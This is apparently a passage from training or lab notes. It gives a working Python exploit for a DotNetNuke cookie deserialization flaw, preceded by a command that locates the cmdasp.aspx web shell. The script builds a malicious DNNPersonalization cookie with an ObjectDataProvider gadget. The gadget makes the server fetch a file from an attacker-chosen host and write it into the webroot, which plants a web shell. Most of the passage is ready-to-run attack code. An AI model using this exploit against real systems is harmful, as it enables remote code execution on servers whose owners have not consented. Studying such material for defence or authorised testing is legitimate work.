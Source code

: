 ```bash
locate cmdasp.aspx
```

The following Python script interacts with the DotNetNuke web application to
abuse the serialization vulnerability discussed, using our payload generated in
previous sections:

```python
import http.client
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1
requests.packages.urllib3.disable_warnings()
API_ENDPOINT = "/dotnetnuke/doesnotexist"


class Solution:
    def __init__(self, url: str, lhost: str, filename: str) -> None:
        self.s = requests.Session()
        self.url = f"{url.rstrip("/")}{API_ENDPOINT}"
        self.lhost, self.filename = lhost, filename

    def solve(self) -> None:
        # Provide malicious cookie to target DNN serialization bug,
        # triggering PullFile to download 'self.filename' from
        # 'self.lhost'
        req = requests.Request(
            "GET",
            self.url,
            cookies={
                "DNNPersonalization": '<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://{lhost}/{filename}</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/{filename}</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>'.format(
                    lhost=self.lhost, filename=self.filename
                )
            },
        )
        prepped = self.s.prepare_request(req)
        self.s.send(prepped, verify=False)


def main():
    parser = ArgumentParser()
    parser.add_argument("-u", "--url", dest="url")
    parser.add_argument("-lh", "--lhost", dest="lhost")
    parser.add_argument("-f", "--filename", dest="filename")
    args = parser.parse_args()
    s = Solution(args.url, args.lhost, args.filename)
    s.solve()


if __name__ == "__main__":
    main()
```
